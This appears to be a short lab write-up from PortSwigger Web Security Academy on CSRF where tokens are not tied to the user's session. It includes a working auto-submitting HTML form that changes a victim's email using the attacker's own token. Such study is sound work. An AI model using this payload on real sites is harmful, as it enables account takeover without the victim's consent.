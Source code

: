 # CSRF Vulnerability


![****](/Portswigger-WebSecurity/CSRF/Screenshots/cssrf4-1.PNG)

![****](/Portswigger-WebSecurity/CSRF/Screenshots/cssrf4-2.PNG)


## Let generate some Payloads!

```php
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
	<input required type="hidden" name="csrf" value="kDsuUM8eQZirZ12sWwS4BkMtluaPUT2E">
</form>
<script>
	document.forms[0].submit();
</script>
```

## Takeaway

- Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.
- Use your account token and check if any changes can be submitted!